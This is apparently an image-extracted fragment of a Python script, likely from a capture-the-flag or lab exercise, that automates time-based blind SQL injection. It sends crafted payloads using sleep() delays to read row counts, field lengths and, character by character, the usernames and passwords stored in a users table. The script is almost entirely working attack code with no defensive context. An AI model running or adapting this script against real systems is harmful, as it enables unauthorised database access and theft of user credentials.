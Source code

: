 ```python
    response = request.urlopen(url + parse.quote(param)).read().decode()

    if (time() - t > 0.1):
        print("num:"+str(num))
        break
    else:
        num += 1

def length(num):
    user_length = 0
    while True:
        param = "1' and if(length(substr((select username from users limit"+str(num)+",1),1))="+str(user_length)+",sleep(0.1),1) #"
        t = time()
        response = request.urlopen(url + parse.quote(param)).read().decode()

        if (time() - t > 0.1):
            print(user_length)
            return user_length
            break
        else:
            user_length += 1
def Name(value1,value2):
    for n in range(num):
        columns_name1 = columns_name2 = ""
        for l  in range(length(n)): # 表的长度
            
            for a in range(0,128): #爆破表
                
                param = "1' and if(ascii(substr((select "+value1+" from users limit "+str(n)+",1),"+str(l+1)+",1)) ="+str(a)+",sleep(0.1),1) #"
                t = time()
                response = request.urlopen(url + parse.quote(param))
                if (time() - t > 0.1 ):
                    columns_name1 += chr(a)
                    break

            for a in range(0,128): #爆破表
                
                param = "1' and if(ascii(substr((select "+value2+" from users limit "+str(n)+",1),"+str(l+1)+",1)) ="+str(a)+",sleep(0.1),1) #"
                t = time()
                response = request.urlopen(url + parse.quote(param))
                if (time() - t > 0.1 ):
                    columns_name2 += chr(a)
                    break
        print(columns_name1+":"+columns_name2)
        
Name("username","password")
```
